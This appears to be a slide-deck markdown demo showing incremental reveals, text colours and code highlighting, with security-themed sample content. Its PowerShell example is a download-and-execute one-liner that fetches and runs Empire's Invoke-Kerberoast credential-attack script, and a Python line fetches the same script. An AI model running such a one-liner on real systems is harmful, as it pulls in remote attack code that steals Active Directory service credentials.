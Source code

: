<pre>
```
# Incremental Slides on One Line &amp; Text Colour Demo

* What port does __http__ run on?

--
.text-colour-green[TCP/80]
--

* What port does __tftp__ run on?

--
.text-colour-green[UDP/69]
--

* .text-colour-red[What is the location of the Active Directory database?]

--
`%SystemRoot%\NTDS\ntds.dit\`
```
</pre>

---

# Code Blocks

* Line with `inline code`
* Code block with default highlighting

    ```
    echo "Code block with default highlighting"
    ```

--

* Code block with PowerShell highlighting

    ```powershell
    <# Code block with powershell highlighting #>
    iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
    ```

--

* Code block with Python highlighting and custom font styles

    ```python
    .font-size-16[# This text is set to 16px size]
    import requests
    requests.get("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
    .text-colour-green[# This text is set to green (overriding the code highlighting)]
    ```
